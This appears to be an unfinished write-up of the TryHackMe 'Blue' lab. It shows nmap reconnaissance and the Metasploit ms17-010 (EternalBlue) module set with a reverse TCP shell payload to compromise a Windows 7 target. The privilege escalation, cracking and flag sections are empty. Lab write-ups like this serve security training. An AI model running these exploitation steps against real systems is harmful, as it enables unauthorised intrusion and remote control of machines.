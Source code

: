 # 🧠 TryHackMe Room: Blue 

**Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
**Author:** Schenkee  
**Profile:** [https://tryhackme.com/p/schenkee](https://tryhackme.com/p/schenkee)  

---

## 🧩 Challenge Task Overview

**Objective:**   
This guide will cover the steps required to gain the answer to all question in the Blue room which focuses on the EternalBlue vulnerability in SMB and is the conclusion to the Metasploit module. 

---

## 🧰 Tools I Used  
- nmap
- Metasploit
- Hashcat

---

Firstly, let’s start our target machine and give it a few minutes to start all relevant services. I am using the TryHackME AttackBox lets start this up as well, or alternatively as in my case connect to the TryHackMe VPN to use your own attacking machine. You can even download the VM for offline usage if required.

---

## 🛠️ Recon: 
First let us start with a straightforward nmap scan to see which ports are open and what possible path we have into the target machine.  

We will run nmap via the following ```sudo nmap -sS TARGET_IP```   
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.  

This should return the below information.  
![Recon - Nmap](./Images/Recon%20-%20Nmap.png)  
This will give us enough information to answer the first question: **How many ports are open with a port number under 1000?**  

Now we can see that port 445 is open which is the default port used for Server Message Block (SMB) protocol. SMB is the protocol which is vulnerable to Eternal Blue in certain windows versions. But let’s run another Nmap scan to see if we cannot find anything further to verify that this port is indeed vulnerable.  

We can run a nmap version scan and default scripts against the target port to see if we can return any further useful information.  

This can be done via ```sudo nmap -sS -sV -sC TARGET_IP -p 445```
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.   
**-sV** Tells Nmap to perform a version scan to detect service versions on each port.  
**-sC** Tells Nmap to perform run default scripts on the target.    
**-p** Tells nmap which port to scan. In this case we only need to scan port 445    

This should result in the below output.  
![Recond - Nmap -sV](./Images/Recon%20-%20Nmap%20-sV.png)  
This has returned some very good information namely the OS details. We can see that the system is running ***Windows 7 Professional 7601 Service Pack 1***

Let’s do a google search for any vulnerabilities which might be affecting smb on ***Windows 7 Professional 7601 Service Pack 1*** and as we might be expected we get some good results back confirming that our target is vulnerable to CVE-2017-0144 Eternal Blue.  
![Recond - Google](./Images/Recon%20-%20Google.png)  
We can also see some results returned on ExploitDB  
![Recond - ExploitDB](./Images/Recon%20-%20ExploitDB.png)  
This provides us the answer to the next and final question for the Recon section: ***What is this machine vulnerable to?***  

This concludes our required Reconnisance for the room and we can now move on to gain access to the target machine.

---

## 🛠️ Gain Access: 
In the Recon section we identified that the target machine is vulnerable to MS17_010 aka EternalBlue. 

So, let’s start up Metasploit using ```msfconsole```  

Now let’s see if there are any relevant modules available to us via ```search ms17-010``` this will bring back the below results.  
![Gain Access - search](./Images/Gain%20Access%20-%20search.png)  
In this instance we can use the first result, to load this module type ```use 0```  

This will also now provide us with the answer to our first question in this section: **Find the exploitation code we will run against the machine. What is the full path of the code?**  

Now that we have loaded this module we will need to configure a couple of items. Firstly, lets view our options via ```show options```  
![Gain Access - Initial options](./Images/Gain%20Access%20-%20Initial%20options.png)  
The items we will need to change are **RHOSTS**, **LHOST** and the **Payload**  Noting that only the **RHOSTS** is empty and required to be set for the module. The **LHOST** is part of the payload options.  

Do this via the following commands  
```set RHOSTS TARGET_IP```  
```set LHOST YOUR_MACHINE_IP```  
```set payload windows/x64/shell/reverse_tcp```  

This should give you the information to answer the next question: **Show options and set the one required value. What is the name of this value?**  

Now we can view our options again via ```show options``` and confirm our remote and local host IPs are correct and that our payload has been adjusted as required.  
![Gain Access - options final](./Images/Gain%20Access%20-%20options%20final.png)  

Once everything is set, we can type in ```run``` or ```exploit``` to start the attack on the target machine.  This may take a minute to complete and once done you should have access to the target machine.  
![Gain Access - Esxploit](./Images/Gain%20Access%20-%20Exploit.png)  

Lastly, we can now background this session via ```CTRL + Z``` to proceed onto the next phase of the attack where we will escalate our shell to a meterpreter session.  

To confirm the session has been backgrounded and is still active we can type in ```sessions -i``` into the main msfconsole.  
![Gain Access - Background](./Images/Gain%20Access%20-%20Background.png)  

---

## 🛠️ Escalate: 


---

## 🛠️ Cracking: 


---

## 🛠️ Find flags!: 


---

## 🧠 Takeaways  
 

---

Thank you for following through my guide of the TryHackMe Blue.  
